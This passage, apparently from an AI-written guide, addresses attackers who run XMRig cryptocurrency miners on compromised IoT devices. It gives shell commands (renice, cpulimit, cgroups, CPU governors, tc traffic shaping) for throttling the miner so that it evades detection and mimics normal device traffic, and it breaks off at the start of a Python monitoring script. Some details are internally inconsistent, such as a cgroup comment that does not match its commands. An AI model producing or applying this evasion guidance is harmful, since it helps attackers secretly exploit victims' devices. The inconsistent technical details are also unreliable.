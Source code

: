 ## Implement Resource Throttling  

To ensure compromised IoT devices remain functional while mining cryptocurrency, attackers must dynamically throttle CPU, memory, and network resources. This section outlines techniques to balance mining activity with device usability, avoiding detection through systematic resource management.  

### **CPU Throttling Techniques**  
1. **Process Priority Control**  
   - **`nice` and `renice` Commands**: Adjust the scheduling priority of mining processes to deprioritize them relative to the device’s core functions.  
     ```bash  
     renice +19 -p $(pidof xmrig)  # Lowest priority (nice value 19)  
     ```  
   - **`cpulimit` Utility**: Enforce strict CPU usage caps. For example, limiting XMRig to 10% CPU:  
     ```bash  
     cpulimit -e xmrig -l 10 --foreground  
     ```  

2. **Kernel-Level Throttling**  
   - **CPUFreq Governors**: Use governors like `ondemand` or `powersave` to dynamically adjust CPU clock speeds based on load.  
     ```bash  
     echo "powersave" | sudo tee /sys/devices/system/cpu/cpu*/cpufreq/scaling_governor  
     ```  
   - **Cgroups (Control Groups)**: Isolate mining processes into cgroups with strict CPU shares (e.g., 100 shares out of 1024 total).  
     ```bash  
     # Create a cgroup for mining  
     sudo cgcreate -g cpu:/mining  
     sudo cgset -r cpu.cfs_quota_us=100000 cpu.cfs_period_us=1000000 mining  
     ```  

### **Network Throttling**  
- **Traffic Shaping with `tc` (Traffic Control)**: Limit upload/download rates to mimic normal IoT traffic patterns.  
  ```bash  
  # Limit mining traffic to 50 KB/s  
  sudo tc class add dev eth0 parent 1: classid 1:1 htb rate 50kbps  
  sudo tc filter add dev eth0 protocol ip parent 1:0 prio 1 u32 match ip dst <mining_pool_ip>/32 flowid 1:1  
  ```  
- **Stratum Protocol Optimization**: Use Monero’s **Stratum v2** (supported by XMRig) to reduce bandwidth usage by ~30% compared to Stratum v1.  

### **Automation and Scheduling**  
1. **Dynamic Load Monitoring Scripts**  
   - **Python Example**: Pause mining when CPU exceeds 80% or temperature surpasses 45°C.  
     ```python  
     import os  
     import time  
     import subprocess  
